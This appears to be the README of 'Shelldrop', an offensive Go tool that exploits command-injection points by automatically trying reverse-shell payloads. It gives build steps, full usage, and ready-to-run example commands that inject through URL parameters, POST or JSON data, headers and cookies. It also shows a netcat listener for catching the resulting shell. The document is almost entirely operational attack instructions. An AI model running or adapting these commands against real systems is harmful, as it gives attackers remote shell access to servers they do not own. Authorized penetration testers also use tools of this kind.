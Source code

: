 # Shelldrop

A command injection tool that leverages an injection point by automatically testing for working reverse shell payloads.

Shelldrop works by injecting payloads into the provided `SHELLDROP` keyword/placeholder.

**Features:**

- Configurable injection point
- Automatic payload detection
- Built-in listener
- Flexible configuration

![til](./demo/demo.gif)

## Build

```bash
git clone https://github.com/shhrew/shelldrop
cd shelldrop
go build -o shelldrop
```

## Usage

```text
usage: shelldrop [-h|--help] -l|--lhost "<value>" -p|--lport <integer>
                 [-P|--payload "<value>"] -u|--url "<value>" [-X|--method
                 (GET|POST|PUT|PATCH|DELETE)] [-d|--data "<value>"]
                 [-H|--header "<value>" [-H|--header "<value>" ...]]
                 [-C|--cookie "<value>" [-C|--cookie "<value>" ...]] [--timeout
                 <integer>] [--no-listener] [--no-color]

                 A command injection tool that automatically tests for working
                 reverse shell payloads.

[*] = Asterisked arguments can contain the SHELLDROP injection keyword

Arguments:

  -h  --help         Print help information
  -l  --lhost        The listen address
  -p  --lport        The listen port
  -P  --payload      Specific payload to use
  -u  --url          The target url [*]
  -X  --method       The request method. Default: GET
  -d  --data         POST data [*]
  -H  --header       Header "Name: Value" pairs, can be used multiple times [*]
  -C  --cookie       Cookie "Name=Value" pairs, can be used multiple times [*]
      --timeout      The request timeout in seconds. Default: 5
      --no-listener  Disable the built-in listener
      --no-color     Disable color output
```

## Examples

#### URL Injection
```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP"
```

#### Using Specific Payload
```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP" -P bash_tcp_1
```

#### Post Data Injection
```bash
# Form data
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php" -X POST -d "vuln_param=SHELLDROP"

# JSON data
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php" -X POST -d '{"vuln_param": "SHELLDROP"}' -H "Content-Type: application/json"
```

#### Header Injection
```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php" -H "User-Agent: SHELLDROP"
```

#### Cookie Injection
```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php" -C "vuln_cookie=SHELLDROP"
```

#### Using External Listener
```bash
# Start your own listener first
nc -lvp 4444

# Run shelldrop with built-in listener disabled
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP" --no-listener
```